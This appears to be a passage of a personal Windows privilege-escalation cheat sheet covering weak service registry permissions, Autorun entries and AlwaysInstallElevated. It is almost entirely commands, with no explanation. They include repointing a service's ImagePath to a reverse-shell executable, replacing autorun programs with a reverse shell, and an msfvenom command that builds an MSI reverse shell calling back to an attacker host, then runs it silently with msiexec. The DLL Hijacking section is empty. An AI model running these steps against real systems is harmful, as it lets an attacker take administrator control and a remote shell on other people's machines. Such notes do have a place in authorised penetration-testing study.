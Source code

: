 ### Weak Registry permissions

```bash
#Look for the following in Winpeas services info output
HKLM\system\currentcontrolset\services\<service> (Interactive [FullControl]) #This means we have ful access

accesschk /acceptula -uvwqk <path of registry> #Check for KEY_ALL_ACCESS

#Service Information from regedit, identify the variable which holds the executable
reg query <reg-path>

reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
#Imagepath is the variable here

net start <service>
```

## DLL Hijacking

```bash

```

## Autorun

```bash
#For checking, it will display some information with file-location
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run

#Check the location is writable
accesschk.exe \accepteula -wvu "<path>" #returns FILE_ALL_ACCESS

#Replace the executable with the reverseshell and we need to wait till Admin logins, then we'll have shell
```

## AlwaysInstallElevated

```bash
#For checking, it should return 1 or Ox1
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

#Creating a reverseshell in msi format
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<port> --platform windows -f msi > reverse.msi

#Execute and get shell
msiexec /quiet /qn /i reverse.msi
```
